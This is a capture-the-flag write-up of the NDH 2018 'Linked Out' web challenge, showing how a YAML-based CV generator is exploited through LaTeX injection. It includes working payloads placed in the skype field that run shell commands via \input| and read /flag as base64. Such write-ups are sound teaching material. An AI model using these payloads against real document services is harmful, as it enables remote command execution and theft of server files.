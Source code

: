 ```yaml
---
title: Quals NDH 2018 - Linked Out
authors: cnotin
layout: writeup
---
```

Solves: 58 / Points: 300 / Category: Web
## Challenge description
> This service build an awesome curriculum vitae for you ! Test it, recruiters will enjoy it ! The developper of this chall too ;)

We have a "Curriculum Vitæ Generator" website where we can upload a little form in YAML format with all the required information.
Once the form is uploaded, a very nice resume is generated in PDF format with the provided information.

The website explains that the tool it uses is *[posquit0's Awesome-CV](https://github.com/posquit0/Awesome-CV)*.

## Challenge resolution
### LaTeX injection
Here is the beginning of the sample YAML file:
```yaml
cv:
  personal_informations:
    firstname: Bruce
    lastname: Schneier
    address: 221b Baker Street, London, ENGLAND
    position: Security Expert ; Master of Internet
  contacts:
    mobile: +12 3 456 789 012
    email: bruce.schneier@it-is-not-my-real-email.com
    homepage: https://www.schneier.com/
    github: schneier-not-my-real-account
    gitlab: schneier-not-my-real-account
    linkedin: schneier-not-my-real-account
    twitter: schneierblog
    skype: schneier-not-my-real-account
    reddit: schneier-not-my-real-account
    xing: schneier-not-my-real-account
  misc:
    extrainfo: Buy one of my books!
    quote: '"Bruce Schneier knows your password before you do." --- https://www.schneierfacts.com'
[...]
```

We know that the used tool is based on LaTeX. It expects a `.tex` file with information in the following format:
```tex
\twitter{@twit}
\skype{skype-id}
\reddit{reddit-id}
\extrainfo{extra informations}
[...]
```

Our first intuition is that our inputs are simply inserted in the `.tex` file. So we could inject arbitrary LaTeX instructions.
Let's verify by trying to close an instruction then re-open it:
```yaml
    skype: BBBBBBBBBBBBBB}\skype{AAAAAAAAAA
```

The injection is successful since the generated PDF returns `AAAAAAAAAA` in the Skype field instead of `BBBBBBBBBBBBBB`:
![Linked Out injection](/assets/linkedout-injection.png){: .image }

### LaTeX injection to command execution
So we can inject LaTeX instructions: now, how to obtain the flag?
We remembered [articles about code injection in LaTeX files](https://0day.work/hacking-with-latex/). There are some prerequisites but we might get lucky.

We found a [Stack Exchange answer](https://tex.stackexchange.com/a/20566) sharing a nice compact syntax to execute shell commands and include the output in the document. Let's try it:
```yaml
    skype: BBBBBBBBBBBBBB}\skype{\input|"ls *"}%
```
It was indeed successful:
![Linked Out ls command](/assets/linkedout-command-ls.png){: .image }

### Get the flag
Extracting the flag with a `cat` command did not work. We thought that its content could create an invalid `.tex` file.
Therefore we used `base64` to obtain it encoded.
```yaml
  skype: BBBBBBBBBBBBBB}\skype{\input|"base64 /flag"}%
```
![Linked Out base64 flag](/assets/linkedout-flag-b64.png){: .image }

Decode it and get the flag:
```shell
$ echo -ne "TkRIe0FuZF9Eb25hbGRfS251dGhfY3JlYXRlZF90aGVfaVRlWH0K" | base64 -d  -
NDH{And_Donald_Knuth_created_the_iTeX}
```
